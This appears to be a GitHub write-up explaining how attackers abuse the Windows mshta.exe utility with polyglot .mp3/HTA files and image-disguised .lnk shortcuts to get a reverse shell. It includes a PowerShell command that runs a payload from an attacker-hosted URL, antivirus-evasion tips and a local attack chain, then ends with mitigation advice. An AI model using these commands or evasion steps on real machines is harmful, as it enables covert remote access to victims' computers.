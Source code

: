 # mshta-abuse
## Introduction

While diving into malware analysis, I came across a technique where attackers use **HTA files** to gain unauthorized access to a victim’s device. What makes this interesting is the abuse of a built-in Windows utility called `mshta.exe`.

This post explores how `mshta` can be leveraged to execute malicious code—**without needing to download a file**—and how simple it is to pull off a reverse shell using this method. Also a walk through a proof-of-concept (PoC) attack using a disguised `.mp3` file and a `.lnk` shortcut file.


## What is `mshta.exe`?

`mshta.exe` is a **legitimate Windows binary** located at:

```
C:\Windows\System32\mshta.exe
```

Its job is to execute **HTA (HTML Application)** files. These files look like regular HTML files but with a `.hta` extension. However, unlike normal web pages, HTA files can also run polyglot files that contains hta code. It basically executes only the hta code skipping the other containts of the polyglot file and giving attackers an easy way to run commands on a victim’s machine.


## Why Is `mshta.exe` Abused?

- **It’s a signed Microsoft binary**, so it's trusted by the system (living off the land).
- It can **execute scripts from remote URLs**, making it perfect for fileless attacks.
- **Antivirus (AV) software may not flag it**, especially if the payload is well-hidden or obfuscated.
- It supports **polyglot files**—files that are valid in more than one format (e.g., a file that is both a `.mp3` and a `.hta`).


## What Are Polyglot Files?

A **polyglot file** is a file crafted in such a way that it can be interpreted correctly as **two or more different file types**. For example, you can create a `.mp3` file that is also a valid `.hta` file.

This means we can hide a malicious HTA script inside a file that appears harmless—like a music file or image.


## Running Malicious Code Without Downloading It


Let’s say we host a polyglot `.mp3` file containing a hidden HTA script on a server.

From **PowerShell**, you can execute the remote payload like this:

```powershell
& 'C:\Windows\System32\mshta.exe' http://[ip_address]:[port]/malicious.mp3
```

> This executes the malicious payload directly from the server, without saving it locally!
>
**Python Server:**

![python_server](https://github.com/user-attachments/assets/dc194265-90fe-4e0d-b9a1-17de5e427210)

**Command Execution:**

![ps_exec](https://github.com/user-attachments/assets/e58292cd-fa80-4db0-b867-e4d7482a34db)

**Reverse Shell Connection:**

![rev_shell](https://github.com/user-attachments/assets/ab0c5828-8e1f-4050-abb9-ae130605ce0d)

### Why It Works:

- `mshta.exe` parses the file and executes the script section inside it.
- The file is never saved on the disk, making it **harder to detect**.
- Since `.mp3` is a "safe" extension, most users won't suspect anything.


## What About Antivirus?

Most antivirus software detects `mshta.exe` when it:

- Connects to the internet,
- Downloads or executes code remotely.

But we can bypass it by:

- **Obfuscating the HTA code** (e.g., encoding or encrypting it),
- Using a **local LNK (shortcut) file** to run the payload,
- **Hiding the malicious polyglot file locally**, not remotely.


## Disguised LNK

### Here's how the attack chain works:

![lamma_poc](https://github.com/user-attachments/assets/e068b954-24ac-473f-9dda-46e40a52caca)

1. **Two files are planted on the victim’s machine**:
    - A disguised `.lnk` file (looks like a `.png` image),
    - A hidden `.mp3` file containing obfuscated malicious HTA code.
2. The `.lnk` file is crafted to run this command:
    
    ```powershell
    & 'C:\Windows\System32\mshta.exe' /path/to/malicious.mp3
    ```
![payload_prop](https://github.com/user-attachments/assets/13fb6b4d-d917-4b60-9cac-97fa947dad5e)

3. When the victim **clicks on the "image"**, the `.lnk` triggers the local polyglot `.mp3` file.
4. The payload is executed, and a **reverse shell** is opened to the attacker's listener.

> The victim just opened a picture—and now the attacker has control!
> 

## Results

https://github.com/user-attachments/assets/95e61e35-15e0-4e1c-9b20-418f3d1abc75



This technique is a great example of how **Living Off the Land Binaries (LOLBins)** like `mshta.exe` can be misused to execute code in stealthy ways. With the added advantage of polyglot files and simple obfuscation, even basic Windows features become dangerous tools.


## Mitigation Tips

- Block or monitor usage of `mshta.exe` using **Application Control** tools like AppLocker or WDAC.
- Do not trust shortcut files, even if they look like images or any other harmless files.


---
> This post reflects what I’ve learned so far. If I’ve missed anything or made a mistake, feel free to reach out—I’m always eager to improve and learn more.
